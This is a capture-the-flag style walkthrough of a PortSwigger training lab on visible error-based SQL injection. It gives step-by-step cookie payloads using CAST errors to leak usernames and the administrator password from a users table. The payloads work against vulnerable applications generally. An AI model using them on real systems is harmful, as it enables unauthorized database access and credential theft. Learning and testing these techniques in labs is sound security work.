










# Visible error-based SQL injection

## This lab contains a [SQL injection](https://portswigger.net/web-security/sql-injection) vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie. The results of the SQL query are not returned.

The database contains a different table called `users`, with columns called `username` and `password`. To solve the lab, find a way to leak the password for the `administrator` user, then log in to their account.


___

**NOTE:** 
`SELECT CAST(1 AS int)--` => it will return `1`
`SELECT CAST((SELECT 1) AS int)--`  => it will return `1`


step 1

go to proxy => http history => select any Request => then send to repeater




step 2

add `'` just after TrackingId
eg: => 
```sql
rackingId=6zYV1IBjiO5WaU1p'
```



step 3

add `''` just after TrackingId
eg: => 
```sql
rackingId=6zYV1IBjiO5WaU1p''
```




step 4

add `' AND CAST((SELECT 1) AS int)--`
eg =>
```sql
TrackingId=6zYV1IBjiO5WaU1p'+AND+CAST((SELECT+1)+AS+int)--
```



step 5

add `' AND 1=CAST((SELECT 1) AS int)--`
eg =>
```sql
TrackingId=6zYV1IBjiO5WaU1p'+AND+1%3dCAST((SELECT+1)+AS+int)--
```




step 6

add  `' AND 1=CAST((SELECT username FROM users) AS int)--`
eg =>
```sql
TrackingId=6zYV1IBjiO5WaU1p'+AND+1%3dCAST((SELECT+username+FROM+users)+AS+int)--
```




step 7

remove trackingId and 
add `TrackingId=' AND 1=CAST((SELECT username FROM users) AS int)--`
eg =>
```sql
TrackingId%3d'+AND+1%3dCAST((SELECT+username+FROM+users)+AS+int)--
```




step 8

add `TrackingId=' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)--`
=> 
```sql
TrackingId='+AND+1%3dCAST((SELECT+username+FROM+users+LIMIT+1)+AS+int)--
```




step 9

add `TrackingId=' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--`
eg =>
```sql
TrackingId='+AND+1%3dCAST((SELECT+password+FROM+users+LIMIT+1)+AS+int)--
```




step 10

To solve the lab
login using `administrator` as username and password `6twusmy93tckofkybx0d`



